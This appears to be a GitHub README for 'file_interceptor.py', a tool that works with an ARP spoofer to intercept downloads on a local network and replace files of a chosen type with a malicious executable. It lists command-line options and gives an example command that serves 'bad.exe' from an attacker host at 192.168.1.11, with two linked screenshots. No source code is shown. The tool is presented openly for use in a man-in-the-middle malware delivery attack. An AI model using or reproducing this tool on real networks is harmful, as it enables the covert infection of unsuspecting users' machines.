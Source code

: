 # File_replacer
It replaces files while downloading, works with arp_apoofer

Usage: file_interceptor.py [options]

Options:
  -h, --help            show this help message and exit
  -m MALACIOUSFILE, --malacious-file=MALACIOUSFILE
                        Enter Malacious file url (eg: -mf
                        http://192.168.1.11/malware.exe
  -f FILETYPE, --file-type=FILETYPE
                        Add file type which you want to replece on download
                        (Eg: -f exe

![Screenshot 2023-01-03 115007](https://user-images.githubusercontent.com/109381227/210309124-287f9e27-1b69-4b75-8cb4-eebc0537fbd3.jpg)

Example: python3 file_interceptor.py -m http://192.168.1.11/bad.exe -f exe

![Screenshot 2023-01-03 115248](https://user-images.githubusercontent.com/109381227/210309176-ef173376-6fa6-4a71-81c1-f6a6b997f160.jpg)

